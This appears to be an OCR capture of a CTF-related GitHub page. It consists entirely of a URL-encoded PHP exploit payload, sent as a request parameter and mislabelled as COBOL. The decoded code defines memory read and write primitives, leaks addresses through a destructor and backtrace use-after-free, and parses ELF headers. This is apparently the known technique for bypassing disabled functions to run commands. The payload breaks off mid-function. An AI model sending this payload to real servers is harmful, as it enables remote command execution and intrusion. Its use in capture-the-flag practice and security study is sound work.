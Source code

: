 ```cobol
c=function%20ctfshow(%24cmd)%20%7B%0A%20%20%20%20global%20%24abc%2C%20%24helper%2C%20%24backtrace%3B%0A%0A%20%20%20%20class%20Vuln%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%3B%0A%20%20%20%20%20%20%20%20public%20function%20__destruct()%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20global%20%24backtrace%3B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20unset(%24this-%3Ea)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20(new%20Exception)-%3EgetTrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(!isset(%24backtrace%5B1%5D%5B'args'%5D))%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24backtrace%20%3D%20debug_backtrace()%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20class%20Helper%20%7B%0A%20%20%20%20%20%20%20%20public%20%24a%2C%20%24b%2C%20%24c%2C%20%24d%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20str2ptr(%26%24str%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24address%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24j%20%3D%20%24s-1%3B%20%24j%20%3E%3D%200%3B%20%24j--)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%3C%3C%3D%208%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24address%20%7C%3D%20ord(%24str%5B%24p%2B%24j%5D)%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24address%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20ptr2str(%24ptr%2C%20%24m%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24out%20%3D%20%22%22%3B%0A%20%20%20%20%20%20%20%20for%20(%24i%3D0%3B%20%24i%20%3C%20%24m%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24out%20.%3D%20sprintf(%22%25c%22%2C(%24ptr%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24ptr%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20return%20%24out%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20write(%26%24str%2C%20%24p%2C%20%24v%2C%20%24n%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20%24i%20%3D%200%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24str%5B%24p%20%2B%20%24i%5D%20%3D%20sprintf(%22%25c%22%2C(%24v%20%26%200xff))%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24v%20%3E%3E%3D%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20leak(%24addr%2C%20%24p%20%3D%200%2C%20%24s%20%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20global%20%24abc%2C%20%24helper%3B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%200x68%2C%20%24addr%20%2B%20%24p%20-%200x10)%3B%0A%20%20%20%20%20%20%20%20%24leak%20%3D%20strlen(%24helper-%3Ea)%3B%0A%20%20%20%20%20%20%20%20if(%24s%20!%3D%208)%20%7B%20%24leak%20%25%3D%202%20%3C%3C%20(%24s%20*%208)%20-%201%3B%20%7D%0A%20%20%20%20%20%20%20%20return%20%24leak%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20parse_elf(%24base)%20%7B%0A%20%20%20%20%20%20%20%20%24e_type%20%3D%20leak(%24base%2C%200x10%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20%24e_phoff%20%3D%20leak(%24base%2C%200x20)%3B%0A%20%20%20%20%20%20%20%20%24e_phentsize%20%3D%20leak(%24base%2C%200x36%2C%202)%3B%0A%20%20%20%20%20%20%20%20%24e_phnum%20%3D%20leak(%24base%2C%200x38%2C%202)%3B%0A%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24e_phnum%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24header%20%3D%20%24base%20%2B%20%24e_phoff%20%2B%20%24i%20*%20%24e_phentsize%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_type%20%20%3D%20leak(%24header%2C%200%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_flags%20%3D%20leak(%24header%2C%204%2C%204)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_vaddr%20%3D%20leak(%24header%2C%200x10)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24p_memsz%20%3D%20leak(%24header%2C%200x28)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%206)%20%7B%20%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_addr%20%3D%20%24e_type%20%3D%3D%202%20%3F%20%24p_vaddr%20%3A%20%24base%20%2B%20%24p_vaddr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24data_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20if(%24p_type%20%3D%3D%201%20%26%26%20%24p_flags%20%3D%3D%205)%20%7B%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24text_size%20%3D%20%24p_memsz%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%0A%20%20%20%20%20%20%20%20if(!%24data_addr%20%7C%7C%20!%24text_size%20%7C%7C%20!%24data_size)%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20false%3B%0A%0A%20%20%20%20%20%20%20%20return%20%5B%24data_addr%2C%20%24text_size%2C%20%24data_size%5D%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_basic_funcs(%24base%2C%20%24elf)%20%7B%0A%20%20%20%20%20%20%20%20list(%24data_addr%2C%20%24text_size%2C%20%24data_size)%20%3D%20%24elf%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24data_size%20%2F%208%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20%24i%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24deref%20!%3D%200x746e6174736e6f63)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24data_addr%2C%20(%24i%20%2B%204)%20*%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20-%20%24base%20%3E%200%20%26%26%20%24leak%20-%20%24base%20%3C%20%24data_addr%20-%20%24base)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24deref%20%3D%20leak(%24leak)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%2
```